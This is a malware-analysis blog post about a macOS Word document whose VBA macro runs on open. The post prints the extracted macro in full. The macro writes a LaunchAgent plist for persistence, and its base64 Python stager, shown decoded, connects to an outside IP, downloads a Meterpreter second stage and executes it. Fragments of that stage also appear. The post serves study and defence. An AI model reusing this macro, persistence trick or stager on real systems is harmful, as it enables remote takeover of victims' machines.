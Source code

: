 ```yaml
---
title: iScam:When a Word Document Wields More Than Just Words
author: Vishal Chand
date: 2025-01-22
categories: [Malware Analysis]
tags: [MacOS,Word Document]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/11.png
---
```

Malware sample : [Click me](https://objective-see.com/downloads/blog/blog_0x3A/BitcoinQuestions.zip)

First let's confirm file type by using `file` command.

![file type](/assets/img/posts/13.png)

So it's a word document!

Now let put this up in [Virus Total](https://www.virustotal.com/gui/) 

![md5](/assets/img/posts/12.png)

> Word documents are actually compressed archives (containing XML files).Which means we can “unzip” the document to view its contents.
{: .prompt-info }

![unzip](/assets/img/posts/14.png)

> VBA macros [in a Word Document] are usually stored in a binary `OLE file` within the compressed archive, called vbaProject.bin
{: .prompt-info }

In above picture we can see the presence of `vbaProject.bin`, which means Word document contains macros!

To extract embedded macros we can use clamAV's `sigtool`. vbaProject.bin a binary OLE file.

You can install clamAV via the following:
```shell
brew install clamav
```
> Executing sigtool with the --vba flag, extracts the embedded macros from the word/vbaProject.bin
{: .prompt-tip } 

```shell
bornpresident@President-iMac Downloads % sigtool --vba word/vbaProject.bin 
-------------- start of code ------------------
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True

-------------- end of code ------------------


-------------- start of code ------------------
Attribute VB_Name = "NewMacros"
Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
Private Sub Document_Open()
Dim path As String
Dim payload As String
payload = "import base64,sys;exec(base64.b64decode({2:str,3:lambda ... }[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ" & _
"1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29" & _
"ubmVjdCgoJzEwOS4yMDIuMTA3LjIwJyw5NjIyKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWN" & _
"rKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')));"
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
'Result = system("launchctl bootout gui/$UID", "r")
End Sub
-------------- end of code ------------------
```
`Private Sub Document_Open()`event occurs when a document is opened.So, the Visual Basic macro code within the in the Document_Open() subroutine will be executed when the malicious Word document,BitcoinMagazine-Quidax_InterviewQuestions_2018.docm, is opened.

So what does the code in the Document_Open() subroutine do?

1. Decodes a chunk (of what appears to be python) code into a variable named payload.
2. Builds a path to a launch agent plist…in a rather interesting manner.
3. Builds a launch agent plist (com.xpnsec.plist) saving this into a variable named arg.
4. Saves said launch agent to disk, via the system command.
5. Forces a logout via launchctl bootout gui/$UID.

> It's not that easy to run macro code within a malicious document beacuse of `Word’s sandbox` but it can bt bypassed. Please refer:[Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)
{: .prompt-info }

#### Decoding python shell
```python
$ python
>>> import base64
>>> payload = "aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5n...30pCg=="
>>> base64.b64decode(payload)

"import socket,struct,time\nfor x in range(10):\n\ttry:\n\t\ts=socket.socket(2,socket.SOCK_STREAM)\n\t\ts.connect(('109.202.107.20',9622))\n\t\tbreak\n\texcept:\n\t\ttime.sleep(5)\nl=struct.unpack('>I',s.recv(4))[0]\nd=s.recv(l)\nwhile len(d)<l:\n\td+=s.recv(l-len(d))\nexec(d,{'s':s})\n"
```
```python
import socket, struct, time

for x in range(10):
  try:
    s=socket.socket(2,socket.SOCK_STREAM)
    s.connect(('109.202.107.20',9622))        //Tries to connect a server at 109.202.107.20 on port 9622 for 10 times
    break
  except:
    time.sleep(5)

l=struct.unpack('>I',s.recv(4))[0]  //Receives 4 bytes from the server (this is variable length of the rest of the payload)
d=s.recv(l)

while len(d)<l:
  d+=s.recv(l-len(d))

exec(d,{'s':s})  //Executes the payload (our 2nd payload)
```
#### Stage 2

```python
$ python download.py 

#!/usr/bin/python
import binascii
import code
import os
import platform

...

try:
    import ctypes
except ImportError:
    has_windll = False
else:
    has_windll = hasattr(ctypes, 'windll')

...

#@export
class MeterpreterChannel(object):
    def core_close(self, request, response):
        self.close()
        return ERROR_SUCCESS, response

...

#@export
class MeterpreterFile(MeterpreterChannel):
    def __init__(self, file_obj):
        self.file_obj = file_obj
        super(MeterpreterFile, self).__init__()

...

#@export
class MeterpreterProcess(MeterpreterChannel):
    def __init__(self, proc_h):

...
```
2nd stage payload is meterpreter. 





